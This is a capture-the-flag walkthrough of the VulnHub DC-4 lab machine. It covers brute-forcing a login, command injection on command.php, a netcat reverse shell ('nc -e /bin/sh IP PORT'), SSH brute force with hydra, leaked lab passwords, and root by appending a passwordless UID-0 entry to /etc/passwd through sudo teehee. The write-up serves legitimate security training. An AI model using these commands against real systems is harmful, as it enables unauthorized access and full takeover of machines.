<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-4,313/">DC5</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap



Looks like it's going to be one of those machine in which you don't have to think about where to start.

***

## HTTP

Visiting website gives us a simple form:



Let's run `dirsearch` on the website:


But looks like every page redirects to `index.php`. But we can use command line tools to see what is on that page. I used [httpie](https://httpie.org/)
to see the source of `command.php`.



We can see that we can run multiple commands on that page etc but we need to be logged in to be able to do anything.

Since there's no way to do anything other then login so let's just brute force the credentials.

I decided to use burp suite intruder to do so.



I got hit on multiple passwords. The one I used to login was `admin:54321`

After login I got a page that had the URL to `/command.php`



I tried running the commands that where present there.



Since we can run commands that means we can have reverse shell easily.

I intercepted the command request in burp and then sent the `netcat` command for reverse shell i.e `nc -e /bin/sh IP PORT` and got a reverse shell.





For TTY shell:

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

***

* Time for **System enumeration**.

I ran `Enumeration script` to see if I can find anything interesting about the system.

I found some users:



and a SUID in `Jim's` directory



I tried running that suid and got the following output:



and `cat` showed that it had the following code in it:



I think this is simple that we need to just edit that `test.sh` and get us a root shell. But the problem is we can't simply edit the file because we don't have the permission to do so.

I looked around in the `jim's` directory and saw a file named `mbox` for which we didn't had permission to read and a directory named `backups`



In the `backups` folder there was a file named `old-password.bak` which we could read and had lots of password.



Maybe we can use these to login via `Jim's` SSH and then edit that file.

I downloaded that list and used hydra to bruteforce the credentials.

After few minutes hydra got a hit:



***

I logged in and edited the `test.sh` to get us a shell but it didn't worked.
But this time I was able to cat the `mbox` file.



This looks like an email. So let's check out the `/var/mail` folder to see if we find anything (otherwise we'll run good old enum script :-) )

In the `/var/mail` folder I found an email to `charles`:



As we can see there's a password and a username i.e `charles` we can simply change our account to that of charles.

`charles:^xHhA&hvim0y`



***

After I didn't found anything running the `enumeration` script I decided to see if I(`charles`) had any `sudo` right.



`Charles` can run `teehee` with sudo rights.

Basically `teehee` can copy standard input to the file of our choice.



We can simply add a user in the `/etc/passwd` without any password and have that user power of `root`. Something like `mzfr::0:0:::/bin/sh`

```bash
echo "mzfr::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
```


Then get the flag.



__NOTE__: If you have doubt in the `/etc/passwd` entry part then read [understanding-etcpasswd-file-format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)


